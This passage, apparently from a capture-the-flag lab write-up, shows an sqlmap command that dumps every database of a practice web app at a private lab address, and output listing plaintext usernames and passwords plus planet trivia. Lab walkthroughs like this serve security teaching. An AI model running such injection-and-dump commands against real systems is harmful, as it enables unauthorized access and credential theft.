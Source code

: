 >[!warning] Note
>- We see that there are two MySQL databases : `information_schema` and `mercury`

## We see for the mercury database

>[!danger] Command
>```bash
>sqlmap -u "10.38.1.114:8080/mercuryfacts/" --dump-all --batch

>[!question] Explanation
> - `--dump-all` is for enumerating the tables of the database

>[!success] Output
>```bash
>Database: mercury
Table: users
[4 entries]
+----+-----------+-------------------------------+
| id | username  | password                      |
+----+-----------+-------------------------------+
| 1  | john      | johnny1987                    |
| 2  | laura     | lovemykids111                 |
| 3  | sam       | lovemybeer111                 |
| 4  | webmaster | mercuryisthesizeof0.056Earths |
+----+-----------+-------------------------------+
Database: mercury                                                                                                  
Table: facts
[8 entries]
+----+--------------------------------------------------------------+
| id | fact                                                         |
+----+--------------------------------------------------------------+
| 1  | Mercury does not have any moons or rings.                    |
| 2  | Mercury is the smallest planet.                              |
| 3  | Mercury is the closest planet to the Sun.                    |
| 4  | Your weight on Mercury would be 38% of your weight on Earth. |
| 5  | A day on the surface of Mercury lasts 176 Earth days.        |
| 6  | A year on Mercury takes 88 Earth days.                       |
| 7  | It's not known who discovered Mercury.                       |
| 8  | A year on Mercury is just 88 days long.                      |
+----+--------------------------------------------------------------+

>[!warning] Notes
>- So we see that we have two tables
>- We have one with credentials, we will focus on this one

